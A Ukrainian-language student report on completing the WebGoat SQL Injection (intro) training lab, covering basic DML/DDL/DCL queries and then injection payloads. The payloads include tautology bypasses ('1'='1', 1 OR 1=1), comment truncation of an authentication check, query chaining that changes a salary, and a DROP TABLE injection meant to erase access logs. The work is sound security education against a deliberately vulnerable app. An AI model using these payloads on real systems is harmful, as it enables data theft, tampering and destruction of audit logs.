









# Звіт з виконання практичних робіт з SQL Injection у WebGoat

Цей звіт містить практичні результати та технічний опис проходження завдань з модуля **SQL Injection (intro)** у навчальному середовищі WebGoat. 

---

## 1. Вступні SQL команди (DML, DDL, DCL)

### Крок 1: Концепція DML (SELECT)
- **Мета**: Отримати назву відділу співробітника Bob Franco за допомогою базового `SELECT` запиту.
- **Виконаний SQL-запит**:
  ```sql
  SELECT department FROM employees WHERE first_name = 'Bob' AND last_name = 'Franco';
  ```
- **Результат**: Повернуто значення відділу `Marketing`.
- **Доказ виконання**:
  

---

### Крок 2: Модифікація даних (UPDATE)
- **Мета**: Змінити відділ співробітника Tobi Barnett на 'Sales'.
- **Виконаний SQL-запит**:
  ```sql
  UPDATE employees SET department = 'Sales' WHERE first_name = 'Tobi' AND last_name = 'Barnett';
  ```
- **Результат**: Запис у таблиці `employees` успішно оновлено.
- **Доказ виконання**:
  

---

### Крок 3: Модифікація схеми (ALTER TABLE)
- **Мета**: Додати нову колонку `phone` з типом даних `varchar(20)` до таблиці `employees`.
- **Виконаний SQL-запит**:
  ```sql
  ALTER TABLE employees ADD phone varchar(20);
  ```
- **Результат**: Структуру таблиці успішно змінено.
- **Доказ виконання**:
  

---

### Крок 4: Керування правами доступу (GRANT)
- **Мета**: Надати всі права доступу до таблиці `grant_rights` користувачу `unauthorized_user`.
- **Виконаний SQL-запит**:
  ```sql
  GRANT ALL ON grant_rights TO unauthorized_user;
  ```
- **Результат**: Права доступу на об'єкт бази даних надано.
- **Доказ виконання**:
  

---

## 2. Практика вразливостей SQL Injection

### Крок 5: String SQL Injection
- **Мета**: Отримати повний список користувачів із таблиці `user_data` без знання точного імені за допомогою рядкової ін'єкції.
- **Введений Payload**: 
  - Поле `last_name`: `Smith' or '1' = '1`
- **Сформований під капотом запит**:
  ```sql
  SELECT * FROM user_data WHERE first_name = 'John' AND last_name = 'Smith' or '1' = '1'
  ```
- **Результат**: Логічна умова `'1'='1'` завжди є істинною (`TRUE`), що дозволило вивести всі записи таблиці `user_data`.
- **Доказ виконання**:
  

---

### Крок 6: Numeric SQL Injection
- **Мета**: Визначити вразливе поле та отримати всі дані з таблиці `user_data` через числову ін'єкцію.
- **Введений Payload**:
  - Поле `User_Id`: `1 OR 1=1`
- **Сформований під капотом запит**:
  ```sql
  SELECT * FROM user_data WHERE Login_Count = 1 and userid= 1 OR 1=1
  ```
- **Результат**: Оскільки в числовій ін'єкції не використовуються одинарні лапки, вираз `OR 1=1` успішно змінив логіку виконання SQL-запиту.
- **Доказ виконання**:
  

---

## 3. Порушення елементів триади CIA

### Крок 7: Порушення конфіденційності (Confidentiality)
- **Мета**: Несанкціоновано отримати дані всіх співробітників компанії в системі, закоментувавши перевірку авторизаційного TAN.
- **Введений Payload**:
  - Поле `Employee Name`: `Smith' OR '1' = '1' --`
- **Результат**: Коментар `--` відсік другу частину запиту з перевіркою `auth_tan`, що дозволило переглянути приватні дані (зарплати, TAN) усіх працівників.
- **Доказ виконання**:
  

---

### Крок 8: Порушення цілісності через Query Chaining (Integrity)
- **Мета**: Несанкціоновано змінити власну зарплату (John Smith) на найвищу в компанії за допомогою виконання декількох послідовних запитів (Query Chaining).
- **Введений Payload**:
  - Поле `Employee Name`: `Smith`
  - Поле `Authentication TAN`: `3SL99A'; UPDATE employees SET salary = 666666666 WHERE first_name = 'John' AND last_name = 'Smith`
- **Результат**: Обхід обмежень впровадженням ін'єкції через поле `Authentication TAN`. Символ `;` дозволив виконати додатковий запит `UPDATE`, який успішно установив зарплату `666666666` для John Smith та порушив цілісність даних.
- **Доказ виконання**:
  

---

### Крок 9: Порушення доступності (Availability / DROP TABLE)
- **Мета**: Повністю знищити таблицю логів `access_log`, щоб приховати сліди зловмисної діяльності.
- **Введений Payload**:
  - Поле `Action contains`: `Brenda'; DROP TABLE access_log;--`
- **Результат**: Таблицю `access_log` видалено з БД через ін'єкцію `DROP TABLE`, що призвело до порушення доступності системних даних.
- **Доказ виконання**:
  
